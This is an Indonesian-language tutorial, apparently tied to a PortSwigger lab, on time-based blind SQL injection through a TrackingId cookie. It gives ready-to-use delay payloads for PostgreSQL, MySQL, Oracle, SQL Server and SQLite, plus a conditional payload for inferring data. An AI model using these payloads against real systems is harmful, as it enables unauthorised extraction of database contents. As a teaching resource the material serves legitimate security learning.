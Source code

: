 # Blind SQL injection with time delays
## **Apa itu Blind SQL Injection dengan Time Delays?**
Blind SQL Injection dengan time delays adalah teknik injeksi SQL yang digunakan untuk memperoleh informasi dari database tanpa mengandalkan respons langsung. Dengan memanfaatkan fungsi waktu, kita dapat menginduksi delay (penundaan) berdasarkan kondisi tertentu untuk menginfokan hasil query.

---

## **Penjelasan Query PostgreSQL**
Pada PostgreSQL, kita dapat menggunakan fungsi `pg_sleep(seconds)` untuk membuat penundaan eksekusi query.

### **Payload:**
```sql
COOKIE'||pg_sleep(10)--
```

#### **Penjelasan:**
1. **`COOKIE`**: Nilai cookie yang sedang diuji.
2. **`||`**: Operator penggabungan string di PostgreSQL.
3. **`pg_sleep(10)`**: Menunda eksekusi selama 10 detik.
4. **`--`**: Komentar untuk mengabaikan sisa query.

### **Contoh Implementasi:**
```plaintext
Cookie: TrackingId=TGjY2hbNNRAamLIb'||pg_sleep(10)--
```
Jika cookie valid dan injeksi berhasil, server akan menunda respon selama 10 detik, menandakan bahwa payload diterima.

---

## **Adaptasi ke Database Lain**
### **1. MySQL**
MySQL menggunakan fungsi `SLEEP(seconds)` untuk membuat penundaan.

#### **Payload:**
```sql
COOKIE' OR SLEEP(10)--
```

#### **Penjelasan:**
1. **`COOKIE`**: Nilai cookie.
2. **`OR`**: Membuat kondisi selalu benar.
3. **`SLEEP(10)`**: Menunda eksekusi selama 10 detik.
4. **`--`**: Mengabaikan sisa query.

#### **Contoh Implementasi:**
```plaintext
Cookie: TrackingId=TGjY2hbNNRAamLIb' OR SLEEP(10)--
```

---

### **2. Oracle**
Oracle menggunakan fungsi `DBMS_LOCK.SLEEP(seconds)` untuk membuat penundaan.

#### **Payload:**
```sql
COOKIE' || DBMS_LOCK.SLEEP(10)--
```

#### **Penjelasan:**
1. **`DBMS_LOCK.SLEEP(10)`**: Menunda eksekusi selama 10 detik.

#### **Contoh Implementasi:**
```plaintext
Cookie: TrackingId=TGjY2hbNNRAamLIb' || DBMS_LOCK.SLEEP(10)--
```

---

### **3. Microsoft SQL Server**
Microsoft SQL Server menggunakan fungsi `WAITFOR DELAY` untuk membuat penundaan.

#### **Payload:**
```sql
COOKIE'; WAITFOR DELAY '00:00:10'--
```

#### **Penjelasan:**
1. **`WAITFOR DELAY '00:00:10'`**: Menunda eksekusi selama 10 detik.

#### **Contoh Implementasi:**
```plaintext
Cookie: TrackingId=TGjY2hbNNRAamLIb'; WAITFOR DELAY '00:00:10'--
```

---

### **4. SQLite**
SQLite tidak memiliki fungsi bawaan untuk penundaan waktu, tetapi kita dapat menggunakan query besar yang memakan waktu untuk dijalankan, seperti iterasi panjang.

#### **Payload (Simulasi Delay):**
```sql
COOKIE' OR (SELECT COUNT(*) FROM large_table, large_table2)--
```

#### **Penjelasan:**
1. **`COUNT(*)`**: Menghitung semua entri pada dua tabel besar untuk memperlambat respons.

---

## **Langkah Eksploitasi**
1. **Identifikasi Kerentanan**: Uji respons server menggunakan payload sederhana.
2. **Uji Penundaan**: Gunakan payload berbasis waktu sesuai dengan database yang digunakan.
3. **Inferensi Data**:
   - Gabungkan kondisi logis untuk memeriksa keberadaan data.
   - Contoh:
     ```sql
     COOKIE'||CASE WHEN (username='administrator') THEN pg_sleep(10) ELSE pg_sleep(0) END--
     ```

---

## **Referensi**
- [Blind SQL Injection](https://portswigger.net/web-security/sql-injection/blind)
- [SQL Injection Cheat Sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)
